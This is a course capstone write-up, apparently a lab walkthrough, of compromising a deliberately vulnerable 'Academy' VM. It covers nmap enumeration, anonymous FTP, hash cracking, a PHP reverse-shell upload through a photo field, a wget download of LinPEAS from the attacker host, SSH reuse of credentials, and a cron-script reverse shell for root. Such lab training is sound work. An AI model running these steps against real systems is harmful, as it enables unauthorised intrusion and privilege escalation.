# Course Capstone - Academy

This capstone challenge aims to exploit a course-provided linux VM.

We will be attacking this vulnerable victim VM from a separate Kali Linux VM (mentioned later as 'attacker VM').

## VM Setup
The VM must first be imported into your hypervisor. I used VirtualBox. <br>
**Be sure that your attacker VM and victim VM have the same network adapter so they can reach one another.**

Start the victim VM, log in using provided credentials in **root password.txt** and grab its IP address using the commands **dhclient** and **ip a**.



Ensure your attacker VM can reach this machine by **pinging** it.

## Initial Enumeration
Run an Nmap scan against the victim VM: <br>
`nmap -T4 -p- -A [VICTIM VM IP]`

```
nmap -T4 -p- -A 10.0.2.12
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-07 16:31 -0400
Nmap scan report for 10.0.2.12
Host is up (0.00019s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.0.2.11
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 08:00:27:0C:BC:D1 (Oracle VirtualBox virtual NIC)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.19 ms 10.0.2.12
``` 

The scan results tell us that the vulnerable VM has the FTP service running on port 21 and allows **anonymous FTP login**. It also has a web server running on port 80.

We can gain more information from the FTP server by logging in anonymously. Start by using the command `ftp [VICTIM IP] [PORT]` followed by the name **Anonymous** and an **empty password**. Now we're inside the FTP server.

We can list the current directory contents using `ls` and we see a file: note.txt. Download this file using the command `get note.txt`.



The note reads as follows:
```
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.

I couldn't create a user via the admin panel, so instead I inserted
directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`,
`studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`,
`creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777',
'', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.

Let me know what you think of this open-source project, it's from 2020 
so it should be secure... right ?
We can always adapt it to our needs.

-jdelta
```

It appears that we have more insight on potential user credentials for the academy website, so we should look there next.

## Gaining a Foothold

Access the academy webpage by opening a browser and going to **http://[VICTIM IP]/academy/** where we find the login page.



From the note, we know we need StudentRegno to log in - but the password inserted into the database may have already been hashed. I used the site [CrackStation](https://crackstation.net/) to crack the hash.



Now we can log into the site using the credentials **10201321:student**.

Navigating to the **My Profile** page we see profile details including name, reg No, Pincode and student photo with the option to upload a new photo.



My assumption now is that we must abuse the photo upload capability to gain access to this machine.

I use [this site](https://www.revshells.com/) to automatically generate a PHP Pentest Monkey reverse shell payload pointing back to my attacker VM. Save the malicious payload as a .php file and upload it as the new student photo, then start a netcat listener on the attacker VM using the command `nc -nlvp [LISTENING PORT]`.

Now all that is left is to run the payload which launches the reverse shell. I happened to do that by right-clicking the image and opening it in a new tab.



Now we have user-level access into this machine!

## Privilege Escalation

We can begin the process of escalating privileges by forcing the victim VM to download and execute the [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) script. This script will search for possible privilege escalation paths on the machine.

We can serve the script from our attacker VM by spinning up a web server using the command `python -m http.server 80`. Then on our victim VM we can get the file using `wget http://[ATTACKER VM IP]/linpeas.sh`.

Change the file permissions and execute the script:
```
chmod u+x linpeas.sh
./linpeas.sh
```

Looking through the script output we have two useful findings:
1. phpMyAdmin credentials



2. A cron job


Digging into the credentials, we can print the contents of the file **cat /var/www/html/academy/includes/config.php** which gives us the username associated with the password already discovered.



Following the assumption that these credentials have be re-used, we can SSH into the victim machine with the same username:password combo **grimmie:My_V3ryS3cur3_P4ss**.



Now we have pivoted into the user **grimmie** who we can use to now escalate to root privileges.

If you remember, we already know that grimmie has a cron job that runs the **backup.sh** script, now we can edit the contents to include another reverse shell pointed back to our attacker VM.



*Note: The commented lines are the original file contents*

Now we can start one final netcat listener on the attacker VM and wait for the cron job to execute and grant us root access.



